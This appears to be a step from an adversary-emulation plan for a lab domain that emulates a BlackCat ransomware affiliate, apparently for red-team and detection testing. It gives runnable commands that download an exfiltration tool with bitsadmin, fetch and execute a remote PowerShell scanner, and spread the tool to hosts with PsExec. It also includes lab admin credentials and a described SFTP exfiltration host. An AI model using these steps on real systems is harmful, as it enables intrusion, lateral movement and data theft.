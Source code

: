 ### :microphone: Voice Track
The BlackCat affiliate downloads `ExMatter` and a network scanning script to
identify additional targets via PowerShell using the compromised Domain Admin
account `digirevenge\ykaida.da`. Then, the BlackCat affiliate uses PsExec to execute
`ExMatter` against the identified targets.

On execution, ExMatter will:
- Retrieve the drive names of all logical drives and collect all file path
names
- Use LastWriteTime to create a queue of files for exfiltration (`ExMatter`
will only exfiltrate files larger than 1,024 bytes)
- Upload files from the queue to a remote SFTP server using the parameters:
  - Host: hide-the-secret-password-inator.net
  - Port: 22
- Compresses target files into a zip archive
- Removes traces of itself by invoking PowerShell to overwrite the first 65,536
bytes then deleting itself

After remote execution of `ExMatter` has completed, the BlackCat affiliate
executes ExMatter on the local workstation.

### ☣️ Procedures

* Open `cmd.exe` (or use an existing cmd.exe running as `zorimoto`) and execute `BITSAdmin.exe` to download
ExMatter from the adversary server
  ```
  bitsadmin /transfer defaultjob4 /download http://the-inator.com/digirevenge/collector1.exe %TEMP%\collector1.exe
  ```

* Search for PowerShell and right-click to Run As Administrator, providing the
Domain Admin credentials for `ykaida.da` when prompted

  | Username | Password |
  | -------- | -------- |
  | digirevenge\ykaida.da | FWy9aXyXbYrbxFcE! |

* Using the elevated PowerShell, download and execute the network scanning
script to identify additional targets
  ```
  Invoke-Expression(Invoke-WebRequest 'http://the-inator.com/digirevenge/Empire-port-scan.ps1' -UseBasicParsing)
  ```
  ```
  Invoke-Portscan -Hosts "10.20.20.0/24" -ErrorAction SilentlyContinue | where {$_.alive -eq $true}
  ```
  ```
  Invoke-Portscan -Hosts "10.20.10.0/24" -ErrorAction SilentlyContinue | where {$_.alive -eq $true}
  ```

* Using the elevated PowerShell, execute ExMatter via PsExec against the
additional targets
  ```
  psexec -c -accepteula \\10.20.20.22,10.20.20.33,10.20.10.4,10.20.10.23,10.20.10.122,10.20.10.200 C:\Users\zorimoto\AppData\Local\Temp\collector1.exe
  ```
  * This may take some time, since ExMatter will run on each host one at a time.

